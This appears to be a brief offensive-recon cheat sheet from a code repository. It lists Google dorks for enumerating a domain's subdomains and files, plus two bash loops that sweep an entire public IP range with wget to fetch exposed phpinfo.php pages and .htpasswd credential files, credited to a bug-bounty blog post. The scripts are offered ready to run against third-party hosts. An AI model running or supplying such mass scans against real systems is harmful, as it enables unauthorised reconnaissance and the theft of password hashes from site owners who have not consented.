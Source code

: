 # Collection of usefull scripts and tricks

## Dorks

Google Dork to find subdomains
```
site:*.domain.com -www
site:http://domain.com ext:php
site:http://domain.com filtype:pdf
```

## Scripts
Script to detect all phpinfo.php files in a range of IPs (CIDR can be found with a whois)
```
#!/bin/bash
for ipa in 98.13{6..9}.{0..255}.{0..255}; do
wget -t 1 -T 3 http://${ipa}/phpinfo.php; done &
```

Script to detect all .htpasswd files in a range of IPs
```
#!/bin/bash
for ipa in 98.13{6..9}.{0..255}.{0..255}; do
wget -t 1 -T 3 http://${ipa}/.htpasswd; done &
```


## Thanks to
* http://blog.it-securityguard.com/bugbounty-yahoo-phpinfo-php-disclosure-2/